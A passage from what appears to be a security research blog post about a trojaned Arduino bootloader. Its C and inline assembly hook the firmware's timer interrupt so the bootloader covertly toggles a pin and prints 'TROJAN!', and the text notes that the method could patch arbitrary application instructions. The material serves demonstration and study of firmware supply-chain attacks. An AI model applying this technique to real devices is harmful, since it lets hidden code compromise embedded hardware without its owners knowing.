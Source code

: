 ```c
	//fortunately both RETI and SEI will execute the next instruction before enabling interrupts
	//so, having CLI as the next instruction preempts the re-enabling of interrupts
	asm volatile("call 0x002c\n\t"
	"cli\n\t");

	if(stack_is_ours) {
		//perform epilogue injections here, e.g.
		if(TIMER_CNT == 9) {
			PORTB ^= 1 << 5; //HERE IS OUR MALICIOUS TROJAN!!
			
			//it's hard to make strings stick around after the bootloader is unloaded. We'll print this character by character.
			while (!(UCSR0A & 1 << UDRE0));
			UDR0 = ' ';
			while (!(UCSR0A & 1 << UDRE0));
			UDR0 = 'T';
			while (!(UCSR0A & 1 << UDRE0));
			UDR0 = 'R';
			while (!(UCSR0A & 1 << UDRE0));
			UDR0 = 'O';
			while (!(UCSR0A & 1 << UDRE0));
			UDR0 = 'J';
			while (!(UCSR0A & 1 << UDRE0));
			UDR0 = 'A';
			while (!(UCSR0A & 1 << UDRE0));
			UDR0 = 'N';
			while (!(UCSR0A & 1 << UDRE0));
			UDR0 = '!';
			while (!(UCSR0A & 1 << UDRE0));
			UDR0 = ' ';
			
		}
		TIMER_CNT = (TIMER_CNT + 1) % 10;
	}
	
	//since this isn't an ISR_NAKED function, it will exit with a RETI instruction of its own
	return;
}
```

And what do we see? 

![Arduino trojan triggers]({{ 'assets/img/flaw3d-bootloader/arduino-trojan-triggers.png' | relative_url }}){: .mx-auto.d-block :}

Bear in mind the Arduino program still hasn't changed from earlier - that TROJAN! message is coming straight from our bootloader, after 10 occurences of the `TIMER1_COMPA_vect` ISR vector!

As for size, our bootloader is now at 2662 bytes (1331 words) compared with the 1678 bytes (839 words). So we've got a bit bigger, but we still fit comfortably into the 2048 words we have available!

_Note also that in this section, we showed how you could modify arbitrary program instructions. So, if the higher level firmware *did* check for and set `IVSEL`, well, we could simply add code in the firmware to find this code and alter it, just the same as we added code that found and altered the code that set up the program's stack._
